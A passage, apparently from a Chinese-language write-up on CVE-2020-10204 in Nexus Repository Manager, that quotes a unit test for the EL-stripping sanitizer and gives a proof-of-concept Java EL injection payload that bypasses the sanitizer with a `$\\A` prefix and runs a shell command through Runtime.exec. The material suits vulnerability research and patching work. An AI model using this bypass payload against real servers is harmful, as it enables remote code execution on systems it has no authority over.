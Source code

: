     @Test
      public void testStripJavaEl_bugged_interpolator() {
        String test = "$\\A{badstuffinhere}";
        String result = underTest.stripJavaEl(test);
        assertThat(result, is("{badstuffinhere}"));
      }

也可以直接知道绕过方法,这里我直接给我rce的poc

    $\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/sssss')}

为什么增加了`\A`还不影响表达式的解析呢,这个我后面说,先构造出完整poc

那么我们找一下哪些接口会使用

![](./resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId29.png)

